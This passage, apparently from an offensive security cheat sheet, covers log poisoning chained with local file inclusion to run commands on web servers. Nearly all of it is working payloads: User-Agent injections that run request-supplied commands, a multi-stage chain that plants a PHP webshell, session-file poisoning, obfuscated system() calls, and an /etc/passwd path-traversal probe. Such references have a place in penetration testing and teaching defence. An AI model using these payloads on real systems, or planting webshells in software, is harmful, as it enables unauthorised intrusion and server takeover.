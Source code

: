 ### Python (WSGI/Flask/Django)

{% raw %}
```python
User-Agent: <% import os; os.system(request.args.get('cmd')) %>
User-Agent: {% import os %}{{os.popen(request.args.get('cmd')).read()}}
```
{% endraw %}

## Advanced Log Poisoning Techniques

### Multi-stage Payloads

```
# Stage 1: Drop a more complete webshell
User-Agent: <?php file_put_contents('/var/www/html/shell.php', '<?php if(isset($_POST["cmd"])){$cmd=$_POST["cmd"];system($cmd);} __halt_compiler();?>'); ?>

# Stage 2: Use the LFI to load the log, causing creation of shell.php
http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log

# Stage 3: Access the created shell
http://vulnerable.com/shell.php
```

### Session File Poisoning

```
# Poison session variables (PHP)
User-Agent: <?php system('id'); ?>

# Include PHP session files
http://vulnerable.com/index.php?page=../../../var/lib/php/sessions/sess_[SESSION_ID]
```

### Obfuscated Payloads for Log Poisoning

```
# Concatenation
User-Agent: <?php $x='sy'.'st'.'em'; $x($_GET['cmd']); ?>

# Character encoding tricks
User-Agent: <?php $x="\x73\x79\x73\x74\x65\x6d"; $x($_GET['cmd']); ?>

# Variable functions
User-Agent: <?php $x=$_GET['func']; $x($_GET['cmd']); ?>
```

## Log Poisoning + LFI Exploitation Steps

### Step 1: Probe for LFI vulnerability
```
http://vulnerable.com/index.php?page=../../../etc/passwd
```
